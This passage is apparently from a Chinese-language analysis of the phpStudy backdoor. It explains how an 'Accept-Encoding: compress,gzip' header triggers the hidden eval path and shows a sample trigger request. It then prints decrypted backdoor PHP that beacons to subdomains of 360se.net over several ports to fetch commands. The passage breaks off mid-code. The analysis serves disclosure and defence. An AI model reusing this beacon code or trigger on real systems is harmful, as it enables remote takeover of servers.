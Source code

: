 第二部分，反向连接：判断ACCEPT\_ENCODING如果等于compress,gzip，通过关键部分\@eval(gzuncompress(\'%s\'));可以看到拼接了一段恶意代码，然后调用gzuncompress方法执行解密。

构造HTTP头，把Accept-Encoding改成Accept-Encoding:
compress,gzip可以触发第二部分。

    GET /index.php HTTP/1.1
    Host: www.0-sec.org
    …..
    Accept-Encoding:compress,gzip
    ….

![2.jpg](resource/Phpstudy后门(非官方后门！！！)/media/rId29.jpg)

图2：第1部分流程判断代码

![3.jpg](resource/Phpstudy后门(非官方后门！！！)/media/rId30.jpg)

图3：第2部分流程判断代码

这一部分有两处会执行zend\_eval\_strings函数代码的位置。分别是从1000D66C到1000E5C4的代码解密：

    @ini_set("display_errors","0");
    error_reporting(0);
    function tcpGet($sendMsg = '', $ip = '360se.net', $port = '20123'){
        $result = "";
      $handle = stream_socket_client("tcp://{$ip}:{$port}", $errno, $errstr,10); 
      if( !$handle ){
        $handle = fsockopen($ip, intval($port), $errno, $errstr, 5);
        if( !$handle ){
            return "err";
        }
      }
      fwrite($handle, $sendMsg."\n");
        while(!feof($handle)){
            stream_set_timeout($handle, 2);
            $result .= fread($handle, 1024);
            $info = stream_get_meta_data($handle);
            if ($info['timed_out']) {
              break;
            }
         }
      fclose($handle); 
      return $result; 
    }

    $ds = array("www","bbs","cms","down","up","file","ftp");
    $ps = array("20123","40125","8080","80","53");
    $n = false;
    do {
        $n = false;
        foreach ($ds as $d){
            $b = false;
            foreach ($ps as $p){
                $result = tcpGet($i,$d.".360se.net",$p); 
                if ($result != "err"){
                    $b =true;
                    break;
                }
            }
            if ($b)break;
        }
        $info = explode("<^>",$result);
        if (count($info)==4){
            if (strpos($info[3],"/*Onemore*/") !== false){
                $info[3] = str_replace("/*Onemore*/","",$info[3]);